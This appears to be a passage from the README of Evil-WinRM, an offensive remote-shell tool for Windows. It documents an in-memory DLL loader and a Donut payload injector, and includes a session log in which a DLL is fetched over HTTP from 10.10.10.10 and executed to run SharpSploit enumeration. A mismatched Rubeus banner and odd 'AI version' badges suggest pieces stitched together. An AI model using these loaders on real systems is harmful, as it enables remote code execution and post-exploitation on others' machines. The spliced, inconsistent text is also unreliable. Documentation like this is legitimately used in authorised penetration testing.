 ```
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


 Ticket requests and renewals:


```

 - Dll-Loader: allows loading dll libraries in memory, it is equivalent to: `[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("pwn.dll"))`

   The dll file can be hosted by smb, http or locally. Once it is loaded type `menu`, then it is possible to autocomplete all functions.
```
*Evil-WinRM* PS C:\> Dll-Loader
.SYNOPSIS
    dll loader.
    PowerShell Function: Dll-Loader
    Author: Hector de Armas (3v4Si0N)

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION
    .
.EXAMPLE
    Dll-Loader -smb -path \\192.168.139.132\\share\\myDll.dll
    Dll-Loader -local -path C:\Users\Pepito\Desktop\myDll.dll
    Dll-Loader -http -path http://example.com/myDll.dll

    Description
    -----------
    Function that loads an arbitrary dll

*Evil-WinRM* PS C:\> Dll-Loader -http http://10.10.10.10/SharpSploit.dll
[+] Reading dll by HTTP
[+] Loading dll...
*Evil-WinRM* PS C:\Users\test\Documents> menu

 [... Snip ...]

*Evil-WinRM* PS C:\> [SharpSploit.Enumeration.Host]::GetProcessList()


Pid          : 0
Ppid         : 0
Name         : Idle
Path         :
SessionID    : 0
Owner        :
Architecture : x64

```
 - Donut-Loader: allows to inject x64 payloads generated with awesome [donut] technique. No need to encode the payload.bin, just generate and inject!


[Cybervaca]: https://github.com/cybervaca
[OscarAkaElvis]: https://github.com/OscarAkaElvis
[Jarilaos]: https://github.com/jarilaos
[arale61]: https://github.com/arale61
[Vis0r]: https://github.com/vmotos
[Alamot]: https://github.com/Alamot
[3v4Si0N]: https://github.com/3v4Si0N
[Borch]: https://github.com/Stoo0rmq
[donut]: https://github.com/TheWover/donut
[donut-maker]: https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py
[byt3bl33d3r]: https://twitter.com/byt3bl33d3r
[WinRb]: https://github.com/WinRb/WinRM/graphs/contributors
[TheWover]: https://github.com/TheWover
[Sh11td0wn]: https://github.com/Sh11td0wn
[ticketer.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
[ticket_converter.py]: https://github.com/Zer1t0/ticket_converter
[Rubeus]: https://github.com/GhostPack/Rubeus
[Mimikatz]: https://github.com/gentilkiwi/mimikatz
[cheatsheet]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
[Dockerhub]: https://hub.docker.com/r/oscarakaelvis/evil-winrm
[Hackplayers]: https://www.hackplayers.com/
[@CyberVaca_]: https://twitter.com/CyberVaca_
[@OscarAkaElvis]: https://twitter.com/OscarAkaElvis
[@_Laox]: https://twitter.com/_Laox
[@arale61]: https://twitter.com/arale61
[Version-shield]: https://img.shields.io/badge/version-4.0-blue.svg?style=flat-square&colorA=273133&colorB=0093ee "AI version"
[Ruby2.3-shield]: https://img.shields.io/badge/ruby-2.3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000 "Ruby 2.3 or later"
[License-shield]: https://img.shields.io/badge/license-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273133&colorB=bd0000 "LGPL v3+"
[Docker-shield]: https://img.shields.io/docker/automated/oscarakaelvis/evil-winrm.svg?style=flat-square&colorA=273133&colorB=a9a9a9 "Docker rules!"
[Gem-Version]: https://badge.fury.io/rb/evil-winrm-ai.svg "Ruby gem"
